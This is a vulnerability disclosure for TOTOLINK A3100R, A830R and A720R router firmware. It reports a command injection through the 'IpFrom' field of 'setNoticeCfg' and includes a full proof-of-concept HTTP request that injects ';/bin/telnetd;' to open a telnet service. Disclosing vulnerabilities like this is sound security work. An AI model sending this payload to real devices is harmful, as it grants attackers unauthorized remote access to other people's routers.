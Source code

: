 # TOTOLINK Vulnerability

Vendor:TOTOLINK

Product:A3100R、A830R、A720R

Version:A3100R_Firmware(V4.1.2cu.5050_B20200504)、A830R_Firmware(V5.9c.4729_B20191112)、A720R_Firmware(V4.1.5cu.470_B20200911)

Type:Remote Command Execution

Author:Jiaqian Peng,Huizhao Wang

Institution:pengjiaqian@iie.ac.cn,wanghuizhao@iie.ac.cn



## Vulnerability description

We found an Command Injection vulnerability  in TOTOLINK Technology router with firmware which was released recently，allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `setNoticeCfg` function,`IpFrom` is directly passed by the attacker, so we can control the `IpFrom` to attack the OS.

<div  align="center"><img src="./images/1.png" style="zoom:50%;" /></div>

**Supplement**

Initially, I discovered this vulnerability on A720R, which is located in `cstecgi.cgi`. Interestingly, during the process of observing other devices, I found that this function was encapsulated in `system.so`, such as A3100R; finally, I completed the verification on the A3100R device.



## PoC

We set `IpFrom` as **;bin/telnetd;** , and the router will excute it,such as:

```http
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 37
Origin: http://192.168.0.1
Connection: close

{"topicurl":"setting/setNoticeCfg","NoticeEnabled":"1","NoticeUrl":"www.baidu.com","BtnName":"abc123","WhiteListUrl1":"www.baidu.com","WhiteListUrl2":"","WhiteListUrl3":"","IpFrom":";/bin/telnetd;","IpTo":"4","NoticeTimeoutVal":"120"}
```

<div  align="center"><img src="./images/2.png" style="zoom:50%;" /></div>



## Result
The target router has enabled the telnet service

<div  align="center"><img src="./images/3.png" style="zoom:50%;" /></div>

